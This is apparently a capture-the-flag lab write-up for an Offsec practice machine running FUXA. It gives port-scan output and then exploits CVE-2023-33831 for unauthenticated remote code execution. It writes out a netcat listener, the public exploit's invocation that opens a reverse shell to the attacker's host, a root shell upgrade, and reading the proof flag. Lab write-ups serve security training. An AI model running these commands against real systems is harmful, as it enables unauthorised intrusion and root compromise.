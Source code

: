 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# CVE-2023-33831
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.219.35 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.219.35:22
Open 192.168.219.35:1881

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
1881/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: F41C8C98D93BC3B707937D0C0CBFAD04
|_http-title: FUXA
|_http-cors: GET POST PUT DELETE
```

搜尋[CVE-2023-33831](https://github.com/rodolfomarianocy/Unauthenticated-RCE-FUXA-CVE-2023-33831)用他，開nc，得root，進/root得proof.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

┌──(kali㉿kali)-[~/pgplay]
└─$ python3 CVE-2023-33831.py --rhost 192.168.219.35 --rport 1881 --lhost 192.168.45.175 --lport 9001

# whoami
root
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@ubuntu:/usr/src/app/FUXA/server# cd /root
root@ubuntu:~# cat proof.txt
436ec938bc7fa944e9942bfe7b8d35ef
```